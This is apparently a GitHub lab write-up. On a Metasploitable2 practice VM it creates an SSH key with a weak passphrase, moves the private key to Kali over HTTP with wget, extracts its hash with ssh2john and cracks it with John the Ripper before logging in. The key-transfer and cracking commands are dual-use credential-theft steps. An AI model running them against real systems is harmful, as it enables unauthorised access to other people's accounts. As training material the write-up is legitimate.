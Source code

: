 # 🔓 Cracking the Private Key on Metasploitable2 Virtual Machine

## **Key Concepts**
	Brute-Force Attack: A method where the attacker systematically tries every possible combination of characters until the correct password is found. This approach can be very effective against weak passwords.

	John the Ripper: An open-source password cracking tool used to recover weak passwords through various methods, including dictionary and brute-force attacks.

	Hashing: A process that converts passwords into fixed-size strings using a hash function, allowing systems to store passwords securely by saving only their hashes instead of the actual passwords.

	Password Dictionary: A collection of common passwords and phrases used by cracking tools to quickly test against password hashes, exploiting the tendency of users to choose weak passwords.

	SSH (Secure Shell): A secure network protocol for accessing and managing devices over an unsecured network, providing encrypted communication and strong authentication.


>Note: Always use strong, unique passwords to protect your accounts. Common passwords, such as "1234567," are easily cracked and put your accounts at risk.


## Steps:

> **Note:** Replace `YOUR_IP_ADDRESS` with the actual IP address of your target machine when following these steps.

1. **Create a New User on Metasploitable2:**
   - I created a new user named `cati` with the password `1234` and verified that both machines could communicate using the ping command:
     ```bash
     sudo adduser cati
     su - cati
     ```

2. **Generate an Encrypted Key for SSH Login:**
   - Generated an SSH key with the password `abc123`:
     ```bash
     ssh-keygen
     ```

3. **Set Up the `.ssh` Directory and Authorized Keys:**
   - Navigated to the `.ssh` directory, created an authorized keys file, and set read/write permissions for the user:
     ```bash
     cd ~/.ssh/
     ls -la
     touch authorized_keys
     chmod 600 authorized_keys
     cat id_rsa.pub >> authorized_keys
     ```

4. **Obtain the Private Key on Kali Linux:**
   - Transferred the private key via HTTP:
     ```bash
     python -m SimpleHTTPServer
     wget http://YOUR_IP_ADDRESS:8000/id_rsa
     cat id_rsa
     ```

5. **Install SSH2John on the Local Machine:**
   - Downloaded the `ssh2john.py` script into a directory named `sshTutorial` on the Desktop:
     ```bash
     wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py
     ```

6. **Extract the Private Key Hash:**
   - Retrieved the private key hash on the local machine:
     ```bash
     python3 ssh2john.py id_rsa > id_rsa.hash
     cat *hash
     ls *hash
     john --wordlist=/usr/share/john/password.lst id_rsa.hash
     ```
		![printScreen1](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/bruteForce1.png)

7. **Apply the Key to the Target:**
   - Copied the private key to the John the Ripper directory and accessed the target machine:
     ```bash
     cp id_rsa /usr/share/john
     ls id*
     ssh -oHostKeyAlgorithms=+ssh-rsa -i id_rsa cati@YOUR_IP_ADDRESS
     ```
		![printScreen2](https://github.com/cataaptr/Cybersecurity-Practice-Labs/blob/main/img/bruteForce2.png)

